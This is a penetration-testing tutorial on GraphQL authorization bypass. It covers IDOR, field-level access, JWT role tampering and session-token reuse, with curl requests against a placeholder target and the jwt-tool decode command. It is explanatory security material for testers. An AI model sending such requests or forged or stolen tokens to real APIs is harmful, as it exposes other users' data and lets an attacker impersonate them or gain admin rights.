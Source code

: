 ```yaml
---
title: GraphQL Authorization Bypass Techniques
description: Explore techniques to bypass authorization in GraphQL, including IDOR,
  field-level, and JWT manipulation methods.
keywords:
- GraphQL security
- authorization bypass
- IDOR GraphQL
- field-level authorization
- JWT manipulation
- role escalation
- session hijacking
- privilege escalation
- access control bypass
---
```


# Authorization Bypass

## Context

In this article, we delve into the practice of bypassing authorization controls within GraphQL APIs. We'll explore techniques such as Insecure Direct Object Reference (IDOR), field-level authorization bypasses, role or permission escalations, and session hijacking. These techniques exploit improper or missing authorization checks, enabling unauthorized access to sensitive data or functions. Our focus is on demonstrating these techniques to help you understand their workings and potential impact.

Prior knowledge of GraphQL schema structures, general access control models like Role-Based Access Control (RBAC), and GraphQL injection fundamentals is assumed.

## Theory

### Authorization in GraphQL APIs

Authorization in GraphQL APIs determines which users can access specific queries, mutations, or fields. Typically, authorization checks are implemented at different levels—resolver, field, or operation—to enforce security policies. However, vulnerabilities arise when these checks are insufficient or improperly configured, potentially exposing sensitive data or functionalities to unauthorized users.

### Common Authorization Bypass Vectors in GraphQL

- **IDOR via GraphQL:** This bypass vector involves directly referencing object IDs without verifying ownership or permissions, often leading to unauthorized access.
  
- **Field-Level Authorization Bypass:** Here, attackers exploit improperly protected sensitive fields within resolvers, gaining access that should be restricted according to user roles.

- **Role/Permission Escalation:** This technique involves manipulating inputs or authentication tokens to gain higher privileges within the system.

- **JWT/Session Manipulation:** Attackers modify JSON Web Tokens or session data to impersonate other users, usually due to insufficient token validation.

### Attack Sequences for Authorization Bypass

1. **Identify Unprotected Resources:** Use introspection or error analysis to discover queries, mutations, or fields lacking proper authorization controls.
  
2. **Craft Unauthorized Requests:** Formulate requests to reference restricted resources or fields without permission.

3. **Manipulate Tokens or Roles:** Alter authentication tokens or role information to escalate privileges and access restricted operations.

## Practice

### IDOR via GraphQL Object Reference

- **Goal:** Access data belonging to other users by exploiting IDOR vulnerabilities.

```bash
curl -X POST https://target/graphql \
    -H 'Authorization: Bearer <token>' \
    -H 'Content-Type: application/json' \
    --data '{"query":"{ user(id: \"2\") { id, email } }"}'
```

By altering the ID parameter in this request, you attempt to fetch information about a user other than yourself. If unprotected, this query could expose unauthorized users' data.

### Field-Level Authorization Bypass

- **Goal:** Access sensitive fields that lack proper authorization checks.

```bash
curl -X POST https://target/graphql \
    -H 'Authorization: Bearer <token>' \
    -H 'Content-Type: application/json' \
    --data '{"query":"{ me { id, email, isAdmin } }"}'
```

This query requests sensitive fields such as `isAdmin`, which should be protected by field-level authorization checks. Accessing these fields without the necessary permissions indicates a vulnerability.

### Role Escalation via JWT Manipulation

- **Goal:** Gain privileged access by modifying JWT claims.

1. Decode the JWT to inspect its payload.

```bash
jwt-tool <token> -d
```

2. Modify the 'role' claim to 'admin' and re-sign the token if signature validation is not enforced.

3. Use the modified token to request admin operations.

```bash
curl -X POST https://target/graphql \
    -H 'Authorization: Bearer <modified_token>' \
    -H 'Content-Type: application/json' \
    --data '{"query":"{ adminPanel { stats } }"}'
```

By re-signing and altering the role, you attempt unauthorized access to admin functions, demonstrating privilege escalation.

### Session Hijacking via Token Reuse

- **Goal:** Impersonate another user by exploiting their session token.

1. Obtain a valid session token for another user through XSS, phishing, or insecure storage.

2. Use the stolen token to impersonate the victim.

```bash
curl -X POST https://target/graphql \
    -H 'Authorization: Bearer <stolen_token>' \
    -H 'Content-Type: application/json' \
    --data '{"query":"{ me { id, email } }"}'
```

This step involves acting as another user by using a session token obtained through malicious means, leading to improper access.

## Tools

- **curl**
- **jwt-tool** 

By understanding these techniques and their practical implementations, you gain insights into the potential impacts of authorization bypass vulnerabilities in GraphQL APIs. Such knowledge is crucial for comprehensively evaluating API security in penetration testing scenarios.